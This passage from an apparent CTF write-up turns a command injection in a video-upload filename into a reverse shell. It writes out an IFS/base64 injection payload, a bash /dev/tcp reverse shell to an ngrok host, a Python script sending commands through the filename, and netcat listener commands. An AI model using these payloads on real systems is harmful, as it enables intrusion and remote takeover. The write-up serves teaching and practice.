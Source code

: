 Nice. We confirmed the command injection… and now what? We want a shell. 
So let's go and refine our payload.

First things first, I wanted to have a solid and bullet-proof payload, so I could easily mess with different commands on the victim server without worrying about spaces.

This is what I came up with:

```bash
;echo${IFS}"base64_encoded_command"|base64${IFS}-d|bash;
```

with this i don’t have to worry about the command I decide to send, cause it is base64 encoded.

Now you can apply the same logic with any command you want. So, let’s spawn a shell.
Firstly we’ll need a public IP. We can use [ngrok](https://ngrok.com/) for this task ([take a look at how it works](https://ngrok.com/docs)).
For the payload itself, I used one from [revshells.com](https://www.revshells.com/):

```bash
sh -i >& /dev/tcp/2.tcp.eu.ngrok.io/18418/ 0>&1
```

## `3 - PoC`

To exploit this vulnerability I created the following (really simple) script to help me testing different commands

```python
import requests
import base64

url = "https://challenge-0723.intigriti.io:443/upload"
headers = {"User-Agent": "Samsung Fridge"}

while (True):
    print("cmd> ", end="")
    cmd = input()
    cmd_enc = base64.b64encode(cmd.encode("utf-8")).decode("utf-8")
    print(f"Executing '{cmd}' on the remote machine...")

    filename = f";echo {cmd_enc} |base64 -d|bash;".replace(' ', '${IFS}')
    files = {'video': (f"{filename}", open("/path/to/video.mp4","rb"), "video/mp4")}

    r = requests.post(url, headers=headers, files=files)
```

Start `nc` listener (`nc -lnvp 1337`), start `ngrok` in tcp mode (`ngrok tcp 1337`) and send the payload. 
